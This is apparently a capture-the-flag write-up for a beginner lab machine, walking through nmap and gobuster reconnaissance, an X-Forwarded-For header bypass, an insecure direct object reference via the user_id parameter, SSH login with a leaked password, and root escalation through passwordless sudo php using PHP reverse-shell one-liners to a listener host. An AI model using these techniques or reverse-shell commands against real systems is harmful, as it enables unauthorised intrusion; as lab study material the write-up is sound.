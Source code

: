 ## 靶机信息
Difficulty Level: Beginner

Notes: there are 2 flag files

Learning: Web Application | Simple Privilege Escalation

## Recon
### nmap
```shell
nmap -sn 192.168.1.0/24
//IP:192.168.1.147

sudo nmap --min-rate 10000 -sT -p- 192.168.1.147 -oA tcp_scan/ports
//Ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

sudo nmap -sT -sC -sV -O -p 22,80 192.168.1.147 -oA tcp_scan/details

sudo nmap --script=vuln -p 22,80 192.168.1.147

```

## Web

### 目录爆破
```shell
gobuster dir -u http://192.168.1.147/ -w /usr/share/wordlists/dirb/common.txt 
# /robots.txt           (Status: 200) [Size: 32]
//User-Agent: *
Allow: /heyhoo.txt

/heyhoo.txt : Great! What you need now is reconn, attack and got the shell

查看页面源码发现提示：<!-- Maybe you can search how to use x-forwarded-for -->

burpsuite抓包后加上X-Forwarded-For: localhost即可
```

![[Pasted image 20231011103657.png]]

![[Pasted image 20231011104536.png]]
设置bp请求头自动添加X-Forwarded-For

> 登录页面后，注册一个账户并登录


![[Pasted image 20231011104637.png]]
看到user_id=12，尝试修改URL参数来访问其它用户(profile页面)

![[Pasted image 20231011104832.png]]
user_id=5时看到了alice账户

![[Pasted image 20231011104948.png]]

## 提权
```shell
ssh alice@192.168.1.147 //passwd:4lic3
/home/alice/.my_secret
Flag 1 : gfriEND{2f5f21b2af1b8c3e227bcf35544f8f09}
```

![[Pasted image 20231011105941.png]]
sudo 可以不需要密码执行 php
## php执行反弹shell
```shell
export RHOST=attacker.com
export RPORT=12345
php -r '$sock=fsockopen(getenv("192.168.1.136"),getenv("1234"));exec("/bin/sh -i <&3 >&3 2>&3");'
sudo /usr/bin/php -r '$sock=fsockopen("192.168.1.136",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
root flag:Flag 2: gfriEND{56fbeef560930e77ff984b644fde66e7}
```

![[Pasted image 20231011111103.png]]







